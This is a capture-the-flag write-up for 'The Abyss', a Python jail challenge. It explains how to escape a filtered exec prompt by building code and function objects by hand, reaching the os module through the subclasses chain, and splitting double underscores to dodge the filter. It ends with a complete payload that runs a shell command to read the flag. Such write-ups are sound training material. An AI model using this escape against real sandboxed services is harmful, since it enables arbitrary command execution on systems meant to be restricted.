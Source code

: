 # The Abyss, 160 points

You are able to netcat to a server where you get a Python prompt that execs whatever you enter. However, what you can run is heavily filtered and dangerous functions are filtered from builtins.

The biggest restriction is nothing with `__`, which prevents most Python jail escapes from working. The solution involves creating a code object, and using that to create a function object that you can run to get the flag.

First you have to get constructors for both code and function objects. This can be done through lambda functions: `type(lambda: 0)` for functions and `type((labmda: 0).func_code)` for code objects.

The next step is to create a code object. You can look at the arguments for the constructor with `help(type((lambda: 0).func_code))`. The parameters can easily be matched up with the properties of the `func_code` property of any function, so you can just copy them from a function you create locally that does what you want.

Since it can be assumed the goal is to get a shell, all you need is the `os` module (you can use `os.system`). The `os` module can be gotten through something like `().__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os']`. Simply create a function that returns that and create a code object with the method described above.

The next step is copying the function properties. Once again, you can do the same thing and just find the properties corresponding to the arguments of the constructor.

During this process you will notice some `__` strings, but you can just separate them into single underscores and concatenate so they aren't noticed. Ultimately, you will get a payload that looks something like:
```python
type(lambda: 0)(type((lambda: 0).func_code)(0, 1, 4, 67, 'g\x00\x00d\x04\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00D]\x1b\x00}\x00\x00|\x00\x00j\x03\x00d\x01\x00k\x02\x00r\x13\x00|\x00\x00^\x02\x00q\x13\x00d\x02\x00\x19j\x04\x00j\x05\x00j\x06\x00d\x03\x00\x19j\x07\x00S', (None, 'catch_warnings', 0, 'linecache', ()), ('_''_class_''_', '_''_base_''_', '_''_subclasses_''_', '_''_name_''_', '_''_re''pr_''_', 'im_func', 'func_globals', 'os'), ('x',), '<stdin>', 'os', 1, ''), {'_''_builtins_''_': globals()['_''_builtins_''_']})().system('cat flag.txt')
```